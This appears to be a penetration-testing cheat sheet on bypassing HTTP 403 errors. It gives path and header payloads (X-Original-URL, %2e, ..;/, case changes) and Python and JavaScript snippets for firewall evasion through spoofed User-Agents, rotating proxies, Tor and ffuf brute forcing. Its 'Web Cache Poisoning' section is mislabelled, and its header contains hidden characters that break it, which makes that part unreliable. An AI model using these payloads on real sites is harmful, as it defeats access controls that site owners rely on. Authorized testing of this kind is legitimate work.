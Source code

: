 # Bypass 403 (Forbidden)
### Using `X-Original-URL` header
```bash
# Normal Request (403)
GET /admin HTTP/1.1
Host: target.com

# Try this to bypass (200)
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

### Appending `%2e` after the first slash
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/%2e/admin
```
### Try add dot `.` slash `/` and semicolon `;` in the URL
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/admin/.
http://target.com//admin//
http://target.com/./admin/..
http://target.com/;/admin
http://target.com/.;/admin
http://target.com//;//admin
```
### Add `..;/` after the directory name
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/admin..;/
```
### Try to uppercase the alphabet in the url
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/aDmIN
```

## Via Web Cache Poisoning
```bash
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```
## Other Tricks
bypassing a 403 Forbidden error, especially when dealing with a firewall like Akamai's Ghost, can be challenging. However, there are several techniques and strategies you can employ to try and circumvent such restrictions. Here are some methods:

**1. User-Agent Spoofing**

Websites often block certain User-Agent strings. You can try spoofing your User-Agent to appear as a different browser or bot.
```python
import requests

url = "http://target.com"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"}

response = requests.get(url, headers=headers)
print(response.status_code)
```

**2. IP Rotation**

Rotating your IP address can help bypass some rate-limiting or geo-blocking measures. You can use proxies or VPNs for this purpose.
```python
proxies = {
    'http': 'http://your_proxy_ip:port',
    'https': 'http://your_proxy_ip:port'
}

response = requests.get(url, proxies=proxies)
print(response.status_code)
```

**3. Referer Header**

Sometimes, adding a Referer header can make it appear as if the request is coming from a legitimate source.
```python
headers = {
    "Referer": "http://target.com",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

response = requests.get(url, headers=headers)
print(response.status_code)
```

**4. Cookies**

Sometimes, websites use cookies to track and block requests. You can try to mimic legitimate cookies.
```python
cookies = {
    'cookie_name': 'cookie_value'
}

response = requests.get(url, cookies=cookies)
print(response.status_code)
```

**5. Session Management**

Maintain a session to bypass certain restrictions.
```python
session = requests.Session()
session.get("http://target.com")
response = session.get("http://target.com/protected_page")
print(response.status_code)
```

**6. Bypassing via JavaScript**

Some websites use JavaScript to dynamically load content, which can bypass certain server-side restrictions. You can use tools like Selenium or Puppeteer to automate browser interactions.

Selenium Example:
```python
from selenium import webdriver

driver = webdriver.Chrome()
driver.get("http://target.com")

# Perform actions like clicking buttons or filling forms
driver.find_element_by_xpath("//button[@id='login']").click()

# Extract content
content = driver.page_source
print(content)

driver.quit()
```

Puppeteer Example:
```javascript
const puppeteer = require('puppeteer');

(async () => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto('http://target.com');

  // Perform actions like clicking buttons or filling forms
  await page.click('button#login');

  // Extract content
  const content = await page.content();
  console.log(content);

  await browser.close();
})();
```

**7. Using Tor or Other Anonymity Networks**

Using Tor or other anonymity networks can help bypass IP-based restrictions.
```python
import requests

# Define the SOCKS5 proxy
proxies = {
    'http': 'socks5h://127.0.0.1:9050',
    'https': 'socks5h://127.0.0.1:9050'
}

# Define the URL
url = 'http://target.com'

# Send the request through the proxy
try:
    response = requests.get(url, proxies=proxies, timeout=10)
    print("Status Code:", response.status_code)
    print("Response Content:", response.text)
except requests.exceptions.RequestException as e:
    print(f"Error: {e}")
```

**8. Checking for Bypass URLs**

Sometimes, websites have alternative URLs that are not protected by the same firewall rules.

**9. Using Browser Extensions**

Browser extensions like `SwitchyOmega` can help manage different profiles and settings to bypass restrictions.

**10. Fuzzing and Brute Forcing**

Tools like `ffuf` can be used to brute-force and discover hidden endpoints or parameters that might bypass restrictions.
```bash
ffuf -u http://target.com/FUZZ -w /path/to/wordlist.txt 
```




















